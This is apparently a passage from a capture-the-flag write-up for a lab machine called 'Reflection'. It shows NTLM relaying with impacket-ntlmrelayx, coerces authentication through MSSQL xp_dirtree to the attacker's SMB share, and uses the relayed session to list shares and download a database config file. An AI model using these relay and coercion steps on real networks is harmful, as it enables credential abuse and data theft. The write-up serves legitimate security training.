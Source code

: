 We try the usual steps here, but nothing valuable comes out of them.
We then start our relaying server — command execution isn't possible, but we are able to enumerate shares.


```zsh
➜  ms01 sudo impacket-ntlmrelayx  -smb2support -tf ../relayTarget.txt -i 
[sudo] password for user: 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
<SNIP>
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11001
[]
[*] SMBD-Thread-4 (process_request_thread): Connection from REFLECTION/SVC_WEB_STAGING@10.10.156.102 controlled, attacking target smb://10.10.156.102
[-] Authenticating against smb://10.10.156.102 as REFLECTION/SVC_WEB_STAGING FAILED
[*] Received connection from REFLECTION/svc_web_staging at MS01, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from REFLECTION/SVC_WEB_STAGING@10.10.156.102 controlled, but there are no more targets left!
[*] Received connection from REFLECTION/svc_web_staging at MS01, connection will be relayed after re-authentication
shares
```

To trigger it, you can:

```zsh
CSQL (-@master)> xp_dirtree \\10.8.6.29\share\
subdirectory   depth   file   
------------   -----   ----   
```

And we can access the shares through our own port 11000.


```zsh
➜  reflection nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
prod
SYSVOL
# use prod
# ls
drw-rw-rw-          0  Wed Jun  7 21:44:26 2023 .
drw-rw-rw-          0  Wed Jun  7 21:43:22 2023 ..
-rw-rw-rw-         45  Thu Jun  8 15:24:39 2023 prod_db.conf
# get prod_db.conf
```
